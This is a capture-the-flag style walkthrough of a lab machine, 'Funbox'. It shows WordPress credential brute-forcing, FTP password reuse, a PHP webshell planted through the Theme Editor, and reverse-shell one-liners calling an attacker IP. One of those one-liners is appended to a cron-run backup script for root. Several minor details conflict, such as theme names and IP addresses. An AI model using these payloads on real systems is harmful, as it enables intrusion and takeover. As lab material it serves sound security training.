



# Funbox

**Box info:** Difficulty: Intermediate · OS: Linux (Ubuntu 20.04) · Focus: WordPress/wpscan credential brute-force, FTP pivoting, root-owned cron job hijack via a world-writable shell script.

An outdated WordPress install gives up two sets of credentials to a straightforward password attack. Those credentials reach FTP and SSH, and a careless admin habit — a backup script writable by its own low-privilege owner but executed by root on a schedule — turns a normal user shell into root.

---

## 1. Reconnaissance (nmap)

```bash
nmap -sC -sV -p- --min-rate=1000 -oA nmap/funbox 192.168.246.77
```

```text
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     ProFTPD
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://funbox.fritz.box/
| http-robots.txt: 1 disallowed entry
|_/secret/
33060/tcp open  mysqlx  MySQL X protocol listener
```

FTP, SSH, HTTP, and an exposed MySQL X protocol port all point at a fairly typical LAMP + FTP box. `robots.txt` disallowing `/secret/` is noted but the WordPress site on port 80 is the obvious starting point.

## 2. Enumeration

`Wappalyzer` and `cmseek` both fingerprint the CMS and version quickly:



```text
CMS: WordPress
Version: 5.4.2
Themes Enumerated: 1 — twentyseventeen
Usernames harvested: admin, joe
```

`wpscan` confirms the same version (vulnerable to dozens of disclosed issues, though none directly exploitable here without credentials) and enumerates the same two usernames via author archives:

```bash
wpscan --url http://funbox.fritz.box/ --enumerate --api-token <token>
```

With two valid usernames in hand, a password attack against `wp-login` is the natural next step:

```bash
wpscan --url http://funbox.fritz.box/ --usernames users.txt --passwords /usr/share/wordlists/rockyou.txt
```

```text
[SUCCESS] - joe / 12345
[SUCCESS] - admin / iubire
```

## 3. Foothold — reused credentials on FTP, then WordPress theme editor RCE

WordPress accounts are frequently reused for other services on the same box; `joe`'s cracked password works directly against the ProFTPD service:

```bash
ftp 192.168.246.77
Name: joe
Password: 12345
```

```text
230 User joe logged in
-rw-r--r--   1 root     root           33 Sep 23 08:46 local.txt
-rw-------   1 joe      joe           998 Jul 18  2020 mbox
```

### User flag

```bash
cat local.txt
```

```text
<LOCAL_REDACTED>
```

With valid WordPress admin credentials (`admin:iubire`) also confirmed, the **Theme Editor** (`Appearance → Theme Editor`) gives direct, authenticated code execution: any PHP file in the active theme can be edited and is served immediately by Apache. A webshell is planted in a template that isn't normally rendered (the theme's 404 page), avoiding clobbering a page a visitor might load:

```php
<?php system($_GET['cmd']); ?>
```



```text
http://funbox.fritz.box/wp-content/themes/twentynineteen/404.php?cmd=ls
```


A full reverse shell is delivered through the same `cmd` parameter using a named-pipe one-liner:

```text
http://funbox.fritz.box/wp-content/themes/twentynineteen/404.php?cmd=rm%20/tmp/f%3Bmkfifo%20/tmp/f%3Bcat%20/tmp/f|sh%20-i%202>%261|nc%20192.168.45.163%208443%20>/tmp/f
```



```bash
nc -lvnp 8443
```

```text
connect to [192.168.45.163] from (UNKNOWN) [192.168.246.77] 34104
www-data@funbox:/var/www/html/wp-content/themes/twentynineteen$
```

From there, SSH as `joe` with the same cracked password gives a clean, stable shell to work from for privilege escalation.

## 4. Privilege escalation

In `/home/funny`, a `.reminder.sh` email script and a `.backup.sh` script reveal a scheduled backup job:

```bash
cat .reminder.sh
```

```text
echo "Hi Joe, the hidden backup.sh backups the entire webspace on and on. Ted, the new admin, test it in a long run." | mail -s"Reminder" joe@funbox
```

```bash
cat .backup.sh
```

```text
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
```

The script itself is owned by `funny` but is group/world-writable and — per the reminder email and the fact that `html.tar`'s timestamp keeps refreshing on its own — is run on a schedule by a cron job as `funny` (or root, confirmed by the eventual callback). Since the script is writable by the current session, a reverse-shell line is appended to it so the scheduler executes it for us:

```bash
echo "sh -i >& /dev/tcp/192.168.45.163/8443 0>&1" >> /home/funny/.backup.sh
```

## 5. Root / proof.txt

A listener catches the scheduled execution, and this run comes back as root:

```bash
nc -lvnp 8443
```

```text
connect to [192.168.45.163] from (UNKNOWN) [192.168.101.77] 43984
# whoami
root
```

```bash
cd /root
cat proof.txt
```

```text
<PROOF_REDACTED>
```

---

## Takeaway

Password reuse across services (WordPress → FTP → SSH) turned one brute-forced credential pair into full account access, and the WordPress Theme Editor — a feature meant for site customization — was the actual RCE primitive once admin credentials were in hand. The root cause of the privilege escalation was simpler still: a cron-scheduled backup script left writable by a non-root user is functionally the same as a root-owned SUID shell.
